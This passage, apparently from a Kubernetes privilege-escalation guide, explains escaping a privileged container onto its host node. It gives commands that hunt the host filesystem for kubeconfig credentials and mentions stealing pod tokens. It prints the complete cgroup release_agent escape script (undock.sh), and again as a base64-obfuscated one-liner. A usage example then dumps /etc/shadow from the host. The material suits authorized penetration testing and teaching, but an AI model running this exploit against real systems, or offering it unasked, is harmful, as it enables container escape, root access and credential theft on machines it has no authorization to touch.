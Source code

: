 ### Look for kubeconfigs in the host filesystem 

By default, nodes don't have `kubectl` installed. If you are lucky though, an administrator tried to make their life (and yours) a little easier by installing `kubectl` and their highly privileged credentials on the node. We're not so lucky on this GKE node 

**Some ideas:**
```bash
find /host -name kubeconfig
find /host -name .kube
grep -R "current-context" /host/home/
grep -R "current-context" /host/root/
grep -R "current-context" /host/
```

### Grab all tokens from all pods on the system

In my experience, the tokens mounted in each pod are not accessible if you simply mount the filesystem as described in this section. However, if you get yourself an interactive shell as outlined in the next section, this privesc path is once again available to you. 


## Remote code execution

There are multiple options when it comes to gaining RCE with root's privileges on the host: 

* Option 1: Use Felix Wilhelm's `undock.sh` and hunt around with non-interactive access
* Option 2: Use Brandon Edwards and Nick Freeman’s version which upgrades you to an interactive shell
* Option 3: Use the metasploit module: `docker_privileged_container_escape`
* Option 4: Use `undock.sh` to download your own reverse shell script and then execute it spawn the reverse shell

### Option 1: Use Felix Wilhelm's undock.sh and hunt around with non-interactive access

#### Create undock script that will automate the container escape POC

Drop this into `undock.sh`
```bash
#!/bin/bash
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
Or, use this one-liner: 
```bash
echo ZD1gZGlybmFtZSAkKGxzIC14IC9zKi9mcy9jKi8qL3IqIHxoZWFkIC1uMSlgCm1rZGlyIC1wICRkL3c7ZWNobyAxID4kZC93L25vdGlmeV9vbl9yZWxlYXNlCnQ9YHNlZCAtbiAncy8uKlxwZXJkaXI9XChbXixdKlwpLiovXDEvcCcgL2V0Yy9tdGFiYAp0b3VjaCAvbzsgZWNobyAkdC9jID4kZC9yZWxlYXNlX2FnZW50O2VjaG8gIiMhL2Jpbi9zaAokMSA+JHQvbyIgPi9jO2NobW9kICt4IC9jO3NoIC1jICJlY2hvIDAgPiRkL3cvY2dyb3VwLnByb2NzIjtzbGVlcCAxO2NhdCAvbwo= | base64 -d > undock.sh 
```
#### Then use the script to run whatever commands you want on the host: 
```bash
sh undock.sh "cat /etc/shadow"
```
